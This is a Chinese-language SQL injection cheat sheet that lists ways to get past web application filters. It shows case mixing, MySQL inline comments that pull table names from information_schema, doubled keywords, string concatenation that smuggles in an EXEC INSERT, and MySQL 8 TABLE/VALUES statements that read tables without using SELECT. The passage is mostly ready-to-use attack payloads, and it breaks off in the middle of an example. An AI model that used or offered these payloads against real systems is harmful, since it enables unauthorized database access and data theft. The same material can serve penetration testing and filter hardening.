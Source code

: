 ### 使用**大小写**绕过

```sql
id=-1'UnIoN/**/SeLeCT
```

### 使用**内联注释**绕过

```sql
id=-1'/*!UnIoN*/ SeLeCT 1,2,concat(/*!table_name*/) FrOM /*information_schema*/.tables /*!WHERE *//*!TaBlE_ScHeMa*/ like database()#
```

### 使用**双关键字**绕过（若删除掉第一个匹配的union就能绕过）

```sql
id=-1'UNIunionONSeLselectECT1,2,3–-
```

### 使用**加号+拆解字符串**

```sql
or ‘swords’ =‘sw’ +’ ords’ ；EXEC(‘IN’ +’ SERT INTO ‘+’ …..’ )
```

### 使用语法新特性绕过屏蔽select

在MySQL 8.0.19版本后，MySQL推出了一些新特性，使我们可以不使用select就能够取数据

#### TABLE 语句

可以直接列出表的全部内容

```sql
TABLE table_name [ORDER BY column_name] [LIMIT number [OFFSET number]]
```

如 `select * from user` 就可以用 `table user` 替代来进行绕过

#### VALUES 语句

可以列出一行的值

```sql
VALUES row_constructor_list [ORDER BY column_designator] [LIMIT BY number]

row_constructor_list:
 ROW(value_list)[, ROW(value_list)][, ...]

value_list:
 value[, value][, ...]

column_designator:
 column_index
```

例如直接列出一行的值
